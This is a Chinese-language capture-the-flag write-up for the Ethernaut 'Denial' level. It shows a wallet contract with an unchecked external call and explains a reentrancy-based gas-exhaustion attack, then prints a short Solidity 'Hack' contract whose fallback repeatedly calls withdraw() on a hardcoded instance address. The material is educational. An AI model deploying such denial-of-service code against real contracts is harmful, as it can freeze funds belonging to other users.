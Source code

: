 # Denial

## 题目

目标：这是一个简单的钱包，会随着时间的推移而流失资金。您可以成为提款伙伴，慢慢提款。通关条件： 在owner调用withdraw()时拒绝提取资金（合约仍有资金，并且交易的gas少于1M）。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## 分析

我们的任务是在调用withdraw的时候，不让它执行成功，让他卡死在方法withdraw中。我们发现，这个方法里面有一个call，向一个未知的地址partner发送以太，那么，我们可以将这个未知的partner设置为一个合约Hack，合约设置重入陷阱。

只要有人调用withdraw，就会重入，不断给Hack合约发送以太直到消耗完所有的gas，卡死在call这一步而无法执行完成

## 攻击代码

```solidity
contract Hack {

    fallback() external payable {
        address(0x3289a3d26E628A8e4868aF84fD66f57e5932E711).call(abi.encodeWithSignature("withdraw()"));
    }

}
```

## 做题

获取实例，攻击

![image-20221228215551573](20.Denial/image-20221228215551573.png)

通过

![image-20221228215603399](20.Denial/image-20221228215603399.png)



